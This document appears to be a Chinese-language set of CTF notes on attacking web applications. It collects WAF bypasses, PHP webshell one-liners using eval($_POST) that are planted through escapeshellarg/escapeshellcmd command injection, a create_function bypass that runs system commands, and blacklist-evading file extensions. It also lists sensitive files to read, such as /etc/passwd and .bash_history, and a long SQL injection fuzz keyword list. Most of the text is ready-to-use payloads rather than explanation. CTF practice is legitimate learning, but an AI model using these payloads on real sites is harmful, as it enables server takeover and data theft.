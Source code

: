6. sql md5 加密注入

8. 过waf

    1. var_dump(scandir(/))
    2. 序列化
    3. 特殊字符绕过使用 <>，*，select，%，反引号，||，&, \
    3. `preg_match('/^[a-z0-9_]*$/isD',$act)` 绕过使用?act=\create_function&arg=){}system("ls");//
    4. 绕过 wakeup 见后面
    5. 绕过 php关键字 --- <?php 换成 <?= @eval($_POST["pd"]);?> -oG pd.phtml '
    6. 绕过 后缀黑名单 phtml .phps .php5 .pht, 见后面对apache设置
    6. 命令行注入escapeshellarg, escapeshellcmd,  `?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '`
    6. 命令行注入escapeshellarg, escapeshellcmd,  `?host=' <?php echo `cat /flag`;?> -oG test.php '`
    7.  [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)




11. xxe/xml实体注入 `[NCTF2019]True XML cookbook`

12. 常见读取文件

```
    /etc/passwd
    /etc/hosts
    /proc/net/arp     ,通过这里得到IP段，爆破
    .bash_history
```
11. 网站备份  index.php, index.php.bak, index.php~, .git/
12. GET请求改POST请求
12. Java项目 WEB-INF/web.xml
13. vim临时文件 swp swo : `vim -r ff.swp` `cat ff.swp`

## bypass绕过方式

    2. bypass informations:
```
    - 大小写绕过
    - 空格 => 
        1. /**/
        2. 括号绕过 or('1')

    - fuzz_list-regexbuddy测: 
        mysql -- 见sql_fuzz.json --  /**/,sElect,uNion,(),	,oR,aNd,bEtween,like,regexp, ,",',^,+,Hex,0b1111101000,?,sHow,dEsc,orDer By,--,~~,`,CONcat,aLter,Columns,*,UpdateXml,ExtractValue,load_file,//,sUbstr,mId,=,mId,lIke,iNto,fIle,iF,sLeep,bEnchmark,lEft,rIght,^,&,||,>,<,#,-,aScii,oRd,sT_,fLoor,gEomfromtext,x(,pOw,cAse,rPad,rEpeat,jOin,bUffer,iNcrement,iNfo,sYs,lImit,oRder,bY,iNsert,uPdate,dElete,iNform
                                     dAtabases,tAbles,uSer,0x,cHar
                                     mysql.innodb_index_stats,mysql.innodb_table_stats,sys.schema_auto_increment_columns
                                     DESC `table name`
                                     SHOW COLUMNS FROM `table name`

                 -- 绕过空格  %09 => tab , ()
                 -- 绕过`     --用别名   select b from (select 1,2,3 as b union select * from admin)a;
                 MySQL 遇到 hex 会自动转成字符串 , 0x61 即 a
                 只能是数字: '0' + 使用2次hex + '0'        -- 网鼎杯 2018 unfinish/ctfshow内部赛签到
                 password在字段名  有password，passwd，pwd -- 见writeup MySQL查询的按位比较 
                 猜 列为flag, 表为flag , select flag from flag
                 看: 常见的SQL注入考点 CTF-123458
                 mysql8 (https://mp.weixin.qq.com/s/U65QGzQoR1EY0QFaTy5--g) , table命令

        php函数-- print_r(glob("*"))|
                 highlight_file|show_source|readfile|file_get_contents -- file_get_contents需要echo
```